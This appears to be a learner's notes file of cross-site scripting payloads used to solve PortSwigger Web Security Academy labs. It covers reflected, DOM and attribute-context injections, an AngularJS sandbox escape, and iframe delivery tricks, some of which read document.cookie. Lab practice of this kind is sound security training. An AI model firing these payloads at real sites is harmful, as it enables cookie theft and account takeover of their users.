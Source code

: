 # xss

==========================================
http://example.com/swagerUI/      SERARCH for swagerui xss payload

==========================================


------------------------------- portswigger laps ----------------------------------

(1)          <h1> 'test' </h1>
             test' </h1>   <script> alert() </script>  <!--
-----------------------------------------------------------------------------------
             
(2)          in comments <img onload=alert()>
-----------------------------------------------------------------------------------

(3)          the 'test >' found it but encoded in html so what is the solution:
             i found js code that take query form search and put it in src f img so
             i put payload in this image
             <img src="query">
             <img src="query" onload=alert()>

             <img src="/resources/images/tracker.gif?searchTerms='+query+'">
                                                                    hello'" onload='alert()'> 
------------------------------------------------------------------------------------

(4)          the test not in sourse code but there is JS dom code make query in url   
             /?search=test
             /?search=javascript:confirm()      not work 
             /?search=<svg onload=alert()>
------------------------------------------------------------------------------------

(5)          if i try to submit feedback i notice that in URL 
             /feedback?returnPath=/
             /feedback?returnPath=javascript:alert(document.cookie)
------------------------------------------------------------------------------------

(6)          <iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
------------------------------------------------------------------------------------
 
(7)          when write test i found it appear in sourse code in two places 
             - <h1>0 search results for 'test'</h1>
             - <input type=text placeholder='Search the blog...' name=search value="test">
             i try test' <img src=x onerror=alert()>        -- not solve --
             i try test' <img src=x onclick=alert()>        -- not solve --

             i notice that the <> are encoded in sorce code so i can't use them 
             in <input>
             try test"onmouseover="alert(1)"
------------------------------------------------------------------------------------

(8)          in website input field 
             javascript:alert()
------------------------------------------------------------------------------------

(9)          in soruse code i found 
             <script>
                        var searchTerms = 'test';
                                          'test' alert();     -- not work --
                                          'test'; alert();//';  -- solved --
------------------------------------------------------------------------------------

(10)         product?productId=1&storeId="></select><img src=1 onerror=alert(1)>



------------------------------------------------------------------------------------

(11)  DOM XSS in AngularJS expression
 
form portswigger sheet cheat i found

         {{constructor.constructor('alert(1)')()}} 


-------------------------------------------------------------------------------------

(12)  \"-alert()}//

\   ==> to close Get / in request 
"   ==> to close the value of json 
}// ==> close json 

------------------------------------------------------------------------------------

(13)   <> <img src=x onerror=alert()>


-----------------------------------------------------------------------------------

(14)  <iframe src="https://0aaf0027041a761d816bed2a006f0054.web-security-academy.net
/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>


-----------------------------------------------------------------------------------

(15) 
 <script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>



------------------------------------------------------------------------------------

(16)

 <svg><animatetransform onbegin=alert(1) attributeName=transform>


-------------------------------------------------------------------------------------

